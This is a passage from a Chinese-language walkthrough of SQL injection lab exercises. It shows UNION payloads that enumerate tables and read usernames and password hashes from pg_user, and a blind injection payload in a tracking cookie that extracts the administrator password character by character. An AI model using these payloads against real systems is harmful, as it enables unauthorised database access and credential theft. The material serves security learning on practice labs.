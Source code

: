 ```
Pets' union select 'aaaaaaaaaaaaaaaaa',TABLE_NAME from information_schema.tables--+
```

搜出180条：

![image-20250627183219016](assets/image-20250627183219016.png)

从中找到了一个叫pg_user的表

```
Pets' union select 'aaaaaaaaaaaaaaaaa',COLUMN_NAME from information_schema.columns where table_name = 'pg_user'--+
```

其中有usename和passwd的列

```
Pets' union select usename, passwd from pg_user--+
```

没找到administrator用户



## 8、Blind SQL injection with conditional responses

```
SELECT SUBSTRING('Hello World', 2, 4);
```

`2` 是起始位置，意味着从第二个字符开始提取（字符串的第一个字符的位置是1 不是0），`4` 表示要提取的字符数量，所以结果是`ello`

题中说：该应用程序使用跟踪 Cookie 进行分析，并执行包含已提交 Cookie 值的 SQL 查询。

例如Cookie的内容是：`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

应用程序使用 SQL 查询来确定这是否是已知用户：

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

本关的pyload：

```
i6xQwpnJkSS7hUrN' and substring((select password from users where username = 'administrator'),1,1)='s'--+
```
